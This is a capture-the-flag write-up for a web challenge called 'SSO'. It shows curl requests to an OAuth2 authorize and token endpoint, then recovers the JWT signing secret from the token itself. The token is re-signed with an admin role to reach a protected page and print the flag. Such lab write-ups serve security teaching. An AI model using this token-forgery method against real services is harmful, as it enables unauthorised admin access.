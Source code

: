# SSO - Web

> Don’t you love undocumented APIs
> Be the admin you were always meant to be

In this challenge, we have a webpage that got this information in the source code

```
<h1>Welcome to our SINGLE SIGN ON PAGE WITH FULL OAUTH2.0!</h1>
<a href="/protected">.</a>
<!--
Wish we had an automatic GET route for /authorize... well they'll just have to POST from their own clients I guess
POST /oauth2/token
POST /oauth2/authorize form-data TODO: make a form for this route
--!>
```

Here we have to exploit the OAuth2.0 protocol. After reading the documentation, we need to have some specific parameters in our request. The first request we make is this one

> curl -d "response_type=code&redirect_uri=xxxx" http://web.chal.csaw.io:9000/oauth2/authorize

This will make a request to /authorize which will give us the auth code. The response we get is the following:

```
Redirecting to <a href="xxxx?code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyZWRpcmVjdF91cmkiOiJ4eHh4IiwiaWF0IjoxNTM3MDQyNDI3LCJleHAiOjE1MzcwNDMwMjd9.wlUbFkuep3-tf_QNersLq_wa4nnsJ6aBVXa208MDdfE&amp;state=">xxxx?code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyZWRpcmVjdF91cmkiOiJ4eHh4IiwiaWF0IjoxNTM3MDQy> NDI3LCJleHAiOjE1MzcwNDMwMjd9.wlUbFkuep3-tf_QNersLq_wa4nnsJ6aBVXa208MDdfE&amp;state=</a>.
```

Then once you have the auth code, you send a request to /token to get the token:

> curl -X POST -d "grant_type=authorization_code&code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyZWRpcmVjdF91cmkiOiJ4eHh4IiwiaWF0IjoxNTM3MDQyNDI3LCJleHAi>OjE1MzcwNDMwMjd9.wlUbFkuep3-tf_QNersLq_wa4nnsJ6aBVXa208MDdfE&redirect_uri=xxxx" http://web.chal.csaw.io:9000/oauth2/token

The grant_type parameter comes from the documentation which is required when you make a request to /token. After running that, we get our token

```
{"token_type":"Bearer","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoidXNlciIsInNlY3JldCI6InVmb3VuZG1lISIsImlhdCI6MTUzNzA0MjQ2NywiZXhwIjoxNTM3MDQzMDY3fQ.KWdaQk-lXliHTR0GqCOdnCzfLA478decjITQAokBogk"}
```

This is a JWT web token so we can go to https://jwt.io/ and change the type from user to admin so it looks like this:

![jwt](https://puu.sh/BwAfZ/7c3c4bf322.png)

The last step we need to do on the jwt.io page is to the sign the cookie with the secret "ufoundme!":

![signjwt](https://puu.sh/BwAhC/2b245eef52.png)

Then the page updates the new token which we use to send a request to /protected since we now have an admin cookie. Therfore, the final requests that gave us the flag is the following:

> curl -H "Authorization: Bearer eyJhbGciOiJIUzI.eyJ0eXBlIjoiYWRtaW4iLCJzZWNyZXQiOiJ1Zm91bmRtZSEiLCJpYXQiOjE1MzcwNDI0NjcsImV4cCI6MTUzNzA0MzA2N30.eIbd4h>ZyU3J_jF7aXCT5JpJKDbVzjHB_coq1DFgw-8Q" http://web.chal.csaw.io:9000/protected

flag{JsonWebTokensaretheeasieststorage-lessdataoptiononthemarket!theyrelyonsupersecureblockchainlevelencryptionfortheirmethods}